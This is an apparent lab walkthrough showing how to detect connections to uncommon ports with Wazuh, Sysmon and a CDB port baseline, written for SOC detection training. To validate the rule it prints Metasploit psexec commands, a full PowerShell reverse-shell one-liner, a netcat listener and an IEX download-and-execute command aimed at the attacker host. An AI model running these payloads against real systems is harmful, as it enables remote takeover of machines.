


# Detecting Abnormal Network Connections With Wazuh

> **INE Lab Walkthrough**  
> **Category:** SOC / SIEM / Detection Engineering  
> **Platform:** Wazuh + Sysmon + Windows Server 2019 + Kali Linux

---

## 📌 Lab Overview

This lab demonstrates how to detect **abnormal outbound network connections** from a Windows endpoint using Wazuh.

The detection is built around **Sysmon Event ID 3**, which records network connections. A Wazuh CDB (Constant Database) list is used as a baseline of commonly used ports. A custom Wazuh rule then generates a **Level 10 alert** whenever a network connection is made to a destination port that is not present in that baseline.

### Detection Pipeline

```text
Windows Target
      │
      │ Sysmon Event ID 3
      ▼
Wazuh Agent
      │
      ▼
Wazuh Manager
      │
      ├── CDB: common-ports baseline
      │
      ├── Destination port NOT found
      │
      ▼
Custom Rule 115001
      │
      ▼
Level 10 Alert
```

---

## 🎯 Objectives

- Deploy the Wazuh Agent on Windows.
- Install and configure Sysmon.
- Forward Sysmon events to Wazuh.
- Create a CDB list of common ports.
- Write a custom Wazuh detection rule based on network behavior.
- Validate the detection using two different network activity simulations.
- Detect uncommon destination ports from the Wazuh Dashboard.
- Understand how baseline-based detection can support a SOC investigation.

---

## 🖥️ Lab Environment

| Machine | Role | IP Address |
|---|---|---|
| Ubuntu | SOC / Wazuh Server | `10.4.22.249` |
| Windows Server 2019 | Target | `10.4.20.157` |
| Kali Linux | Attacker | `10.10.50.12` |

> **Note:** These are the IP addresses used during my completed lab session. The original INE instructions may use different example addresses.

---

# 🔹 Task 1 — Deploy the Wazuh Agent

## Step 1 — Identify the Wazuh Server IP

On the SOC machine:

```bash
ip addr
```

The Wazuh server interface showed:

```text
inet 10.4.22.249/20
```

---

## Step 2 — Install the Wazuh Agent

On the Windows target, open **PowerShell as Administrator**.

Navigate to the installer:

```powershell
cd Desktop\Tools
```

Install the agent using the actual Wazuh server IP:

```powershell
msiexec.exe /i wazuh-agent-4.3.10-1.msi /q WAZUH_MANAGER=10.4.22.249 WAZUH_REGISTRATION_SERVER=10.4.22.249 WAZUH_AGENT_GROUP=default
```

Start the service:

```powershell
Start-Service -Name WazuhSvc
```

Verify:

```powershell
Get-Service WazuhSvc
```

Expected:

```text
Status   Name
------   ----
Running  WazuhSvc
```

The Windows agent then appeared as an **active agent** in the Wazuh Dashboard.

### Result

```text
✅ Wazuh Agent connected successfully
```

---

# 🔹 Task 2 — Configure Sysmon and Wazuh

## Step 1 — Install Sysmon

On Windows:

```powershell
cd Desktop\Tools
```

Install Sysmon using the provided configuration:

```powershell
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

Verify the service:

```powershell
Get-Service Sysmon64
```

Expected:

```text
Status   Name
------   ----
Running  Sysmon64
```

---

## Step 2 — Configure Wazuh to Collect Sysmon Events

Open:

```text
C:\Program Files (x86)\ossec-agent\ossec.conf
```

Add:

```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

Restart the Wazuh Agent:

```powershell
Restart-Service -Name WazuhSvc
```

### Important Sysmon Event

**Event ID 3 — Network Connection**

Sysmon Event ID 3 provides the network connection telemetry needed by the custom detection rule.

The important fields include information such as the source, destination, destination port, and process responsible for the connection.

---

# 🔹 Task 3 — Configure the CDB Common Ports List

Switch to the SOC/Wazuh server.

Navigate to:

```bash
cd /var/ossec/etc/lists/
```

Create the CDB list:

```bash
sudo nano common-ports
```

Add:

```text
21:
25:
22:
53:
80:
135:
389:
443:
445:
993:
995:
1514:
1515:
3389:
3306:
5000:
5223:
8000:
8002:
8080:
8083:
8443:
```

## Understanding the CDB Baseline

The file:

```text
/var/ossec/etc/lists/common-ports
```

acts as a **baseline** of expected/common network ports for this lab environment.

A CDB (Constant Database) list allows Wazuh to quickly look up values. By defining what is considered common or expected, Wazuh can identify connections that deviate from the baseline.

For example:

| Port | Baseline Status | Meaning |
|---:|---|---|
| `443` | Present | Common/expected |
| `80` | Present | Common/expected |
| `1234` | Not present | Uncommon |
| `4444` | Not present | Uncommon |

> **Important:** An uncommon port is **not automatically malicious**. It is an indicator that may require investigation. Custom applications, development services, testing, or administrator activity can legitimately use uncommon ports.

Set ownership and permissions:

```bash
sudo chown wazuh:wazuh common-ports
sudo chmod 660 common-ports
```

---

## Load the CDB List

Edit:

```bash
sudo nano /var/ossec/etc/ossec.conf
```

Inside the `<ruleset>` section, add:

```xml
<list>etc/lists/common-ports</list>
```

Restart the Wazuh Manager:

```bash
sudo systemctl restart wazuh-manager
```

Verify:

```bash
sudo systemctl status wazuh-manager
```

Expected:

```text
Active: active (running)
```

### CDB Logic

```text
Destination Port
       │
       ▼
common-ports
       │
  ┌────┴─────┐
  │          │
Found     Not Found
  │          │
No alert   Rule 115001
             │
             ▼
          Level 10
```

---

# 🔹 Task 4 — Create the Detection Rule

Edit the Wazuh local rules:

```bash
sudo nano /var/ossec/etc/rules/local_rules.xml
```

Add:

```xml
<group name="windows,sysmon,">
    <rule id="115001" level="10">
        <if_sid>61605</if_sid>
        <list field="win.eventdata.destinationPort" lookup="not_match_key">etc/lists/common-ports</list>
        <description>[Network connection]: Network connection to an Uncommon Port $(win.eventdata.destinationPort) by $(win.eventdata.image)</description>
    </rule>
</group>
```

## Rule Breakdown

The rule detects network connections to a destination port that is **not present** in the `common-ports` baseline.

It does **not** specifically look for Metasploit, Netcat, or PowerShell.

The detection logic is essentially:

> **"Is this destination port outside the configured baseline?"**

| Rule Component | Purpose |
|---|---|
| `115001` | Custom detection rule ID |
| `level="10"` | Alert level used for this lab |
| `if_sid 61605` | Matches the relevant Sysmon network connection event |
| `win.eventdata.destinationPort` | Destination port observed by Sysmon |
| `common-ports` | Baseline of expected/common ports |
| `not_match_key` | Triggers when the port is not found in the baseline |
| `win.eventdata.image` | Process associated with the network connection |

Validate the configuration:

```bash
sudo /var/ossec/bin/wazuh-analysisd -t
```

Restart Wazuh:

```bash
sudo systemctl restart wazuh-manager
```

---

# 🔥 Task 5 — Simulate Abnormal Network Activity

Two simulations were used to validate the same behavioral detection logic:

1. Metasploit activity involving destination port `4444`
2. PowerShell + Netcat activity involving destination port `1234`

The important point is that **both ports are outside the configured baseline**.

---

# 🧪 Simulation 1 — Metasploit Activity

The first simulation used Metasploit to generate network activity involving an uncommon destination port:

```text
4444
```

On Kali (`10.10.50.12`):

```bash
msfconsole -q
```

Use the SMB PsExec module:

```text
use exploit/windows/smb/psexec
set RHOSTS 10.4.20.157
set SMBUser administrator
set SMBPass <LAB_PASSWORD>
exploit
```

> **Technical note:** Although the lab context references pass-the-hash activity, the commands shown here authenticate using a username and password rather than an NTLM hash. This walkthrough therefore focuses on the resulting network activity and Wazuh detection rather than claiming that these exact commands demonstrate a pure pass-the-hash attack.

The successful session showed:

```text
Meterpreter session 1 opened
(10.10.50.12:4444 -> 10.4.20.157:50097)
```

## Expected Result

Wazuh should generate Rule `115001` when the destination port is not present in the `common-ports` CDB list.

## Observation

The important observation is the connection involving destination port:

```text
4444
```

Port `4444` is **not present** in `common-ports`.

Therefore, Rule `115001` triggers.

## Detection Flow

```text
Metasploit activity
       ↓
Windows process creates network activity
       ↓
Sysmon Event ID 3 records network connection
       ↓
Wazuh Agent forwards event
       ↓
Wazuh Manager processes event
       ↓
Destination port = 4444
       ↓
Check common-ports CDB
       ↓
4444 NOT FOUND
       ↓
Rule 115001 triggers
       ↓
Level 10 Alert
```

---

# 🚨 Wazuh Detection — Port 4444

The Wazuh Dashboard generated an alert similar to:

```text
[Network connection]: Network connection to an Uncommon Port 4444
by C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```

Detection details:

```text
Rule ID: 115001
Level:   10
Port:    4444
Process: powershell.exe
```

### Evidence



*Figure: Wazuh Dashboard showing Rule 115001 detecting a network connection to uncommon destination port 4444.*

> **Important:** Wazuh detected the resulting network connection to destination port `4444`. The detection is **not** "Metasploit detected." The detection is based on the network behavior.

---

# 🧪 Simulation 2 — PowerShell + Netcat

The second simulation used:

- PowerShell on Windows
- A PowerShell TCP script
- Python HTTP server on Kali
- Netcat listener on Kali
- Destination port `1234`

This simulation is useful because it demonstrates that the same Wazuh rule can detect uncommon network behavior generated by a completely different method.

---

## Step 1 — Create the PowerShell Script

On Kali:

```bash
nano mypowershell.ps1
```

Save the following script:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.50.12",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### What the Script Does

The important part for this Wazuh lab is:

```text
10.10.50.12:1234
```

The script creates a TCP client on the Windows machine and attempts to connect to the Kali machine on TCP port `1234`.

Conceptually:

```text
Windows PowerShell
       │
       │ TCP connection
       │
       │ Destination: 10.10.50.12
       │ Destination Port: 1234
       ▼
Kali Netcat Listener
```

The script then communicates over that TCP connection.

For this detection lab, the important fact is that the script creates network traffic that Sysmon can observe.

---

## Step 2 — Host the Script

Start a simple HTTP server on Kali:

```bash
python3 -m http.server 80
```

This hosts:

```text
mypowershell.ps1
```

The Windows machine will download it from:

```text
http://10.10.50.12:80/mypowershell.ps1
```

### Important

Port `80` is **not** the abnormal port being detected.

Port `80` is already included in the `common-ports` baseline.

The HTTP server is only being used to transfer the PowerShell script.

---

## Step 3 — Start the Netcat Listener

On another Kali terminal:

```bash
nc -lvnp 1234
```

Options:

- `nc` = Netcat
- `-l` = listen mode
- `-v` = verbose output
- `-n` = do not perform DNS resolution
- `-p 1234` = listen on TCP port `1234`

At this point, Kali is waiting for the Windows machine to connect.

---

## Step 4 — Download and Execute the Script on Windows

On the Windows Server:

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.50.12:80/mypowershell.ps1')"
```

What happens:

```text
PowerShell
    ↓
Downloads mypowershell.ps1
    ↓
HTTP connection to Kali:80
    ↓
IEX executes the downloaded script
    ↓
Script creates TCP connection
    ↓
Connection to Kali:1234
```

---

# 🔎 Understanding the Two Network Connections

This is an important part of the simulation.

There are **two separate network connections**.

## Connection 1 — HTTP Script Download

```text
Windows Server
10.4.20.157
       │
       │ HTTP / TCP 80
       ▼
Kali Linux
10.10.50.12
       │
       ▼
Python HTTP Server
```

Purpose:

```text
Download mypowershell.ps1
```

Destination port:

```text
80
```

Port `80` is in the CDB baseline.

Therefore, this is **not** the uncommon-port connection that triggers Rule `115001`.

---

## Connection 2 — PowerShell TCP Connection

```text
Windows Server
10.4.20.157
       │
       │ TCP
       │ Destination Port 1234
       ▼
Kali Linux
10.10.50.12
       │
       ▼
Netcat Listener
TCP/1234
```

Purpose:

```text
Create the TCP communication used by the PowerShell script
```

Destination port:

```text
1234
```

Port `1234` is **not** in the CDB baseline.

Therefore, this is the connection that triggers Rule `115001`.

---

## Step 5 — Observe the Netcat Connection

The Netcat listener showed:

```text
Connection from 10.4.20.157.
Connection from 10.4.20.157:50106.
```

### Destination vs Source Port

This is important to understand.

| Value | Meaning |
|---|---|
| `10.4.20.157` | Windows Server IP |
| `10.10.50.12` | Kali IP |
| `1234` | Kali listening/destination port |
| `50106` | Temporary/ephemeral source port used by Windows |

The Wazuh rule checks:

```text
win.eventdata.destinationPort
```

Therefore, the important value is:

```text
1234
```

Not:

```text
50106
```

---

## Step 6 — Wazuh Detection

After the PowerShell script connects to Netcat:

```text
PowerShell Script
       ↓
TCP connection to Kali:1234
       ↓
Sysmon Event ID 3
       ↓
Wazuh Agent
       ↓
Wazuh Manager
       ↓
destinationPort = 1234
       ↓
common-ports lookup
       ↓
1234 NOT FOUND
       ↓
Rule 115001
       ↓
Level 10 Alert
```

### Why Did the Alert Trigger?

The custom rule checks whether the destination port is present in the CDB baseline.

The event contained:

```text
destinationPort = 1234
```

The CDB did not contain `1234`.

Therefore:

```text
1234
 ↓
Not in common-ports
 ↓
Rule 115001
 ↓
Level 10 Alert
```

---

# 🚨 Wazuh Detection — Port 1234

The Wazuh Dashboard displayed:

```text
Rule ID: 115001
Level: 10
Destination Port: 1234
```

### Evidence



*Figure: Wazuh Dashboard showing the completed detection results for uncommon destination ports 1234 and 4444.*

> **Important:** Wazuh is not specifically detecting "Netcat" or "PowerShell". It is detecting the resulting network connection to destination port `1234`.

---

# 📊 Simulation Comparison

| Simulation | Method | Destination Port | In Baseline? | Result |
|---|---|---:|---|---|
| 1 | Metasploit | `4444` | ❌ No | Rule 115001 / Level 10 |
| 2 | PowerShell + Netcat | `1234` | ❌ No | Rule 115001 / Level 10 |

Both simulations triggered the same rule because the detection condition is:

```text
Destination port is NOT present in common-ports
```

The tools are different, but the detection logic is the same.

---

# 📸 Evidence — Completed Wazuh Detection

The following screenshot shows both uncommon-port alerts in the Wazuh Dashboard:

- Port `1234`
- Port `4444`
- Rule `115001`
- Level `10`


*Figure: Wazuh Dashboard showing both successful uncommon-port detections.*

The second screenshot provides a focused view of the `4444` detection:


*Figure: Wazuh Dashboard showing the Rule 115001 alert for destination port 4444.*

---

# 🧠 What These Simulations Prove

These two simulations demonstrate that the custom Wazuh rule can detect different network connections when their destination ports are outside the configured common-port baseline.

### Simulation 1

```text
Port 4444
    ↓
Not in baseline
    ↓
Rule 115001
    ↓
Level 10 Alert
```

### Simulation 2

```text
Port 1234
    ↓
Not in baseline
    ↓
Rule 115001
    ↓
Level 10 Alert
```

The important takeaway is:

> **The detection logic is based on network behavior, not on a specific attack tool.**

---

# 🛡️ Why This Matters in a SOC

A SOC analyst should not rely only on signatures for known attack tools.

Attackers can use different tools, scripts, or custom malware.

Behavior-based detection can identify suspicious deviations from normal activity.

In this lab:

```text
Normal/common ports
       ↓
Baseline
       ↓
Unexpected destination port
       ↓
Potential anomaly
       ↓
Alert
       ↓
SOC investigation
```

An uncommon port is an **indicator that requires investigation**, not automatic proof of compromise.

### Possible Legitimate Reasons

- Custom applications
- Development servers
- Internal services
- Temporary testing
- Administrator activity

### Possible Suspicious Reasons

- Reverse shells
- Command-and-control communication
- Malware callbacks
- Unauthorized services
- Suspicious data transfer

A SOC analyst should investigate the process, destination IP, user, timing, frequency, and surrounding events before deciding whether the activity is malicious.

---

# 🔍 In Simple Terms

Think of the CDB list as a **guest list**.

```text
443  → On the list → Expected
80   → On the list → Expected
1234 → Not on list → Alert
4444 → Not on list → Alert
```

So:

```text
Destination Port
       ↓
Is it in common-ports?
       ↓
   ┌───┴────┐
  YES       NO
   │         │
Expected   Rule 115001
             │
             ▼
          Level 10
```

The important concept is:

> **Wazuh is detecting an uncommon destination port, not a specific hacking tool.**

---

# 🧩 Complete Lab Architecture

```text
                     ┌──────────────────────┐
                     │      Kali Linux      │
                     │     10.10.50.12      │
                     │                      │
                     │ HTTP Server :80      │
                     │ Netcat      :1234    │
                     └──────────┬───────────┘
                                ▲
                         Network Connections
                                │
                                │
                     ┌──────────┴───────────┐
                     │   Windows Server     │
                     │     10.4.20.157      │
                     │                      │
                     │ PowerShell           │
                     │ Sysmon               │
                     │ Event ID 3           │
                     └──────────┬───────────┘
                                │
                                │ Sysmon Events
                                ▼
                     ┌──────────────────────┐
                     │    Wazuh Agent       │
                     └──────────┬───────────┘
                                │
                                ▼
                     ┌──────────────────────┐
                     │   Wazuh Manager      │
                     │     10.4.22.249      │
                     │                      │
                     │ common-ports CDB     │
                     │ Rule 115001          │
                     └──────────┬───────────┘
                                │
                                ▼
                         🚨 Level 10 Alert
```

---

# 📝 Key Learning Points

### 1. Sysmon

Sysmon provides detailed Windows telemetry, including network connection events.

### 2. Wazuh Agent

The Wazuh Agent collects and forwards the relevant Sysmon events.

### 3. Wazuh Manager

The Wazuh Manager analyzes the incoming events and applies detection rules.

### 4. CDB Baseline

The `common-ports` CDB provides a list of ports considered common or expected for this lab.

### 5. Custom Rule

Rule `115001` detects destination ports that are not present in the baseline.

### 6. Behavioral Detection

The rule focuses on **network behavior** rather than depending on a specific attack tool.

### 7. Alert Validation

The detection was successfully validated using destination ports:

```text
4444
1234
```

Both generated:

```text
Rule ID: 115001
Level: 10
```

---

# 🏁 Conclusion

This lab demonstrated how endpoint network telemetry from Sysmon can be integrated with Wazuh and compared against a CDB-based baseline.

Two different simulations were used:

- Metasploit activity involving destination port `4444`
- PowerShell + Netcat activity involving destination port `1234`

Both ports were outside the configured `common-ports` baseline, so Wazuh generated **Rule 115001 / Level 10** alerts.

The most important lesson from this lab is that the custom rule is not tied to a specific tool. It detects **network behavior that deviates from the configured baseline**.

This is a useful SOC detection concept because it can provide an investigation signal even when the exact attack tool or technique is unknown.

---

## 🛠️ Skills Demonstrated

- 🛡️ Wazuh SIEM
- 🪟 Windows Security Monitoring
- 🔎 Sysmon
- 📋 Log Collection
- ⚙️ Wazuh Custom Rules
- 🗃️ CDB Lists
- 🌐 Network Monitoring
- 🚨 Alert Validation
- 🔬 Detection Engineering
- 👨💻 SOC Analyst Workflow
- 📊 Baseline-Based Detection

---

## 📚 References

- [Wazuh](https://wazuh.com/)
- [Microsoft Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- INE — **Detecting Abnormal Network Connections With Wazuh**

---

## 📁 Repository Structure

```text
Detecting_Abnormal_Network_Connections_With_Wazuh/
├── Detecting_Abnormal_Network_Connections_With_Wazuh_Walkthrough.md
└── images/
    ├── wazuh_verify.png
    └── wazuh_verify2.png
```

> **Public GitHub note:** The lab password is intentionally replaced with `<LAB_PASSWORD>` so credentials are not committed to Git.
